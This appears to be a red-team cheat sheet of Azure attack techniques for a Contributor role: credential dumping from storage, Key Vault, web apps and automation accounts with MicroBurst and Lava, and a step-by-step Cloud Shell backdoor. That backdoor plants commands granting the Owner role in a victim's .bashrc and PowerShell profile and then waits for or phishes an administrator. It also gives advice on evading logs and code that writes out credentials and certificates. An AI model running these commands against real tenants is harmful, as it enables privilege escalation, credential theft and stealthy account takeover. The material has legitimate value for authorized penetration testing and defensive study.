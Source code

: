 - Storage accounts
	- Contributor role has these management plane permissions and can use them to exploit the data plane:
		- Microsoft.Storage/storageAccounts/listkeys/action - read access keys of storage accounts
		- Microsoft.Storage/storageAccounts/listAccountSas/action - Generate SAS token for data plane access at storage account level
		- Microsoft.Storage/storageAccounts/listServiceSas/action - Generate SAS token for data plane access at service level
	- MicroBurst
		- Dump credentials from Azure Storage instances (can also do other accounts)
			- `Get-AzPasswords -AutomationAccounts N -AppServices N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView`
			- Can use the keys to access these services to extract data or other credentials
		- Open Azure Storage Explorer
			- Authenticate with name from previous command and account key
	- Lava
		- `stg_blob_download` - Automatically download all blob containers in subscription
	- Azure Cloud Shell
		- https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-cloud-shell/
		- Mount the image to view sensitive info and also force it to execute commands the next time it is mounted (automatically when Cloud Shell starts)
		- Auth to CLI as Contributor
			- `az login -u contributoruser@<domain_name> -p <contributor_user_password>`
		- Start Lava
			- `python3 lava.py`
		- Verify permissions
			- `exec priv_show`
		- Scan for Cloud Shell images
			- `exec stg_file_scan`
		- Download files in file shares (can take a while if there are a lot)
			- `exec stg_file_download` - Note the download location for later
		- Exit Lava
			- `exit`
		- Mount IMG file
			- `mount <download_location>/.cloudconsole/acc_azureadmin.img /mnt`
		- Cd into mounted file, write malicious command to .bashrc or .config/PowerShell/Microsoft.PowerShell_profile.ps1
			- `echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName') &>/dev/null" >> .bashrc`
			- `echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner | out-null" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1`
		- Unmount
			- `umount /mnt`
		- Get name of storage account
			- `az storage account list --query [].name -o tsv` - look for one that starts with "cs"
			- `storagename=<storage_acct_name>`
		- Get access key and file share and upload image
			- `key=$(az storage account keys list -n $storagename --query [0].value -o tsv)`
			- `csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)`
			- `az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_azureadmin.img" --source "<download_location>/.cloudconsole/acc_azureadmin.img"`
		- Wait for privileged account to open Azure Cloud Shell, or send phishing email with a link to the shell to the user
		- Clean up Owner permissions
			- `$upnsuffix=$(az ad signed-in-user show --query userPrincipalName --output tsv | sed 's/.*@//')`
			- `$contributoruser = "contributoruser@$upnsuffix"`
			- `$contributoruserid=$(az ad user list --upn $contributoruser --query [].objectId -o tsv)`
			- `az role assignment delete --assignee $contributoruserid --role "Owner"`
		- Remember to remove backdoored command in Azure Cloud Shell
		
- Key Vault
	- Contributor has no access to data plane by default, but has this permission on the management plane to give itself perms:
		- `Microsoft.KeyVault/vaults/accessPolicies/write`
		- OPSEC NOTE: Changing these permissions may be logged; try to use other principals that already have authorization (such as automation Run as, app registrations, and managed identities)
			- Automation accounts: Create a new runbook that uses the Run as account to access the key vault. 
			- App registrations: Authenticate as the app registration and access the key vault.
			- Managed Identities: Generate REST API tokens for the identity to access the key vault with.
		- Can also add access policy that allows the account to generate a trusted certificate - used in supply-chain attack
	- MicroBurst
		- Dump sensitive info from Key Vaults by temporarily changing permissions and reverting them
			- `Get-AzPasswords -AutomationAccounts N -AppServices N -Keys Y -ACR N -CosmosDB N -ModifyPolicies Y -Verbose | Out-GridView`

- Web apps
	- Collect publish profile, containing credentials
		- `Get-AzWebAppPublishingProfile`
		- MicroBurst
			- `Get-AzPasswords -AutomationAccounts N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView`
	- Find FTP endpoint to review/modify app files:
		- `az webapp deployment list-publishing-profiles --name <appname> --resource-group <group-name> --query "[? ends_with(profileName, 'FTP')].{profileName: profileName, publishUrl: publishUrl}"`
	- Can use Console in Azure Portal or the SCM interface
		-  $APP_NAME.scm.azurewebsites.net
			- Can auth to this with the publish profile creds
	- Keep in mind these usually have managed identities too
	- [Lateral Movement in Azure App Services (netspi.com)](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
	
- Automation Accounts
	- Review runbook code to find credentials
	- Extract stored account credentials and Run as account certificates
		- Write credential variables to job output
			- `$myCredential = Get-AutomationPSCredential -Name 'Cred-1'`
			- `$userName = $myCredential.UserName`
			- `$password = $myCredential.GetNetworkCredential().Password`
			- `$username`
			- `$password`
		- Export Run as certificates
			- `$RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'`
			- `$CertificatePath = Join-Path $env:temp RunAsCertificate.pfx`
			- `$Cert = $RunAsCert.Export('pfx','CertificatePassword')`
			- `Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose`
			- `$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath))`
			- `$base64string`
		- MicroBurst
			- `Get-AzPasswords -AppServices N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView`
			- Note that this will create files with a Run as certificate (pfx) and a script to log in as that Run as account
			- Can also use the REST API
				- `Get-AzAutomationAccountCredsREST`
				- https://github.com/NetSPI/MicroBurst/blob/master/REST/Get-AzAutomationAccountCredsREST.ps1